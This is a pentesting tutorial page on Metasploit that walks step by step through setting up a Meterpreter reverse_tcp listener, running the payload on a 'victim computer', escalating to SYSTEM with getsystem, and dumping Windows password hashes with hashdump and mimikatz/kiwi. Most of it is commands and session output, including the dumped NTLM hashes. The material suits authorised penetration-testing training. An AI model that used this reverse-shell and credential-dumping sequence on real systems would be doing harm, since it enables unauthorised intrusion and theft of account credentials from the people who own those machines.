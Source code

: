 ```yaml
---
title: Meterpreter Hashdump
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 3
---
```


# Meterpreter Hashdump

## Introduction

Meterpreter enables the extraction of sensitive information, such as password hashes, from compromised systems.

## Step-by-Step Guide

### 1. Create the meterpreter binary

How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.html)

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit
```

### 3. Execute your meterpreter binary on the victim computer

### 4. Confirm connection

Sample (run *'ps'*): 
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100

meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User                Path
 ---   ----  ----         ----  -------  ----                ----
 0     0     [System Pro
             cess]
 4     0     System
 224   4     smss.exe
 296   288   csrss.exe
 308   432   svchost.exe
 344   288   wininit.exe
 356   336   csrss.exe
 396   336   winlogon.exe
 432   344   services.exe
 440   344   lsass.exe
 ...
```

### 5. Escalate privileges using GETSYSTEM
```bash
meterpreter > getuid
Server username: WIN-AJ4C67166DE\win7
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 5. Dump the hashes
- Using *hashdump*

  ```bash
  meterpreter > run post/windows/gather/hashdump

  [*] Obtaining the boot key...
  [*] Calculating the hboot key using SYSKEY 3b80f96e49b6b3a366c79b496cbe57bf...
  [*] Obtaining the user list and keys...
  [*] Decrypting user keys...
  [*] Dumping password hints...

  No users with password hints on this system

  [*] Dumping password hashes...


  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  win7:1000:aad3b435b51404eeaad3b435b51404ee:7a21990fcd3d759941e45c490f143d5f:::
  HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:55932e2f2cc08825aa02a23d7389a74f:::
  ```

- Using mimikatz/kiwi
  ```bash
  meterpreter > load mimikatz
  [!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
  Loading extension kiwi...
    .#####.   mimikatz 2.2.0 20191125 (x86/windows)
  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
  '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
    '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

  [!] Loaded x86 Kiwi on an x64 architecture.

  Success.
  meterpreter > help kiwi

  Kiwi Commands
  =============

      Command       Description
      -------       -----------
      creds_all     Retrieve all credentials (parsed)
      creds_kerber  Retrieve Kerberos creds (parsed)
      os
      creds_livess  Retrieve Live SSP creds
      p
      creds_msv     Retrieve LM/NTLM creds (parsed)
      creds_ssp     Retrieve SSP creds
      creds_tspkg   Retrieve TsPkg creds (parsed)
      creds_wdiges  Retrieve WDigest creds (parsed)
      t
      dcsync        Retrieve user account information via DCSync (unparsed)
      dcsync_ntlm   Retrieve user account NTLM hash, SID and RID via DCSync
      golden_ticke  Create a golden kerberos ticket
      t_create
      kerberos_tic  List all kerberos tickets (unparsed)
      ket_list
      kerberos_tic  Purge any in-use kerberos tickets
      ket_purge
      kerberos_tic  Use a kerberos ticket
      ket_use
      kiwi_cmd      Execute an arbitary mimikatz command (unparsed)
      lsa_dump_sam  Dump LSA SAM (unparsed)
      lsa_dump_sec  Dump LSA secrets (unparsed)
      rets
      password_cha  Change the password/hash of a user
      nge
      wifi_list     List wifi profiles/creds for the current user
      wifi_list_sh  List shared wifi profiles/creds (requires SYSTEM)
      ared


  meterpreter > lsa_dump_sam
  [+] Running as SYSTEM
  [*] Dumping SAM
  Domain : WIN-AJ4C67166DE
  SysKey : 3b80f96e49b6b3a366c79b496cbe57bf
  Local SID : S-1-5-21-1793970707-311962389-2470865123

  SAMKey : c010854906e331ef5397ae7e6ead8858

  RID  : 000001f4 (500)
  User : Administrator
    Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

  RID  : 000001f5 (501)
  User : Guest

  RID  : 000003e8 (1000)
  User : win7
    Hash NTLM: 7a21990fcd3d759941e45c490f143d5f

  RID  : 000003ea (1002)
  User : HomeGroupUser$
    Hash NTLM: 55932e2f2cc08825aa02a23d7389a74f
  ```

## Video Demonstration

[<img src="https://img.youtube.com/vi/_cF1LXJyHZ4/hqdefault.jpg"
/>](https://www.youtube.com/embed/_cF1LXJyHZ4)

## References
- https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#hashdump
- https://www.offsec.com/metasploit-unleashed/mimikatz/